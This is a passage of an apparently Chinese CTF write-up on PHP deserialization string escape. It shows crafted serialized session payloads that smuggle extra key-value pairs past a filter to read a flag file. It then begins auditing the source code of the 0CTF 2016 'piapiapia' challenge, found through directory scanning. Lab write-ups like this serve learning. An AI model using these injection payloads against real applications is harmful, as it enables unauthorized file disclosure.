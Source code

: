```
"a:3:{s:4:"user";s:24:"";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}"
1 
```

payload2: 键逃逸，只需要一个键值对就行了，我们直接构造会被过滤的键，这样值得一部分充当键，剩下得一部分作为单独得键值对

```
_SESSION[flagphp]=;s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
1 
```

var_dump的结果为：

```
"a:2:{s:7:"";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mbGxsbGxsYWc=";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}" 
```

#### 一篇php反序列化blog

[反序列化攻略](https://y4tacker.blog.csdn.net/article/details/113588692?utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-3.control&dist_request_id=1332042.477.16191772930201431&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-3.control)

# [0CTF 2016]piapiapia

### php反序列化逃逸

#### 反序列化逃逸（转换后字符变多）

### 题解

进入是个登录框，尝试注入，未果。

那使用dirsearch（我的还没调好）和御剑扫描后台。 找到www.zip 下载下来，get全部源码

发现有register.php 注册页面，进入注册，并使用该账号密码登录。

审计一下register.php 的源码

```
 if(strlen($username) < 3 or strlen($username) > 16) 
		die('Invalid user name');

	if(strlen($password) < 3 or strlen($password) > 16) 
		die('Invalid password'); 
```

要求密码和用户名在3-16位之间。

然后进入update.php

```
if($_POST['phone'] && $_POST['email'] && $_POST['nickname'] && $_FILES['photo']) {

​	$username = $_SESSION['username'];
​	if(!preg_match('/^\d{11}$/', $_POST['phone']))
​		die('Invalid phone');

​	if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
​		die('Invalid email');
​	
​	if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
​		die('Invalid nickname');
​	//各文件名检测

```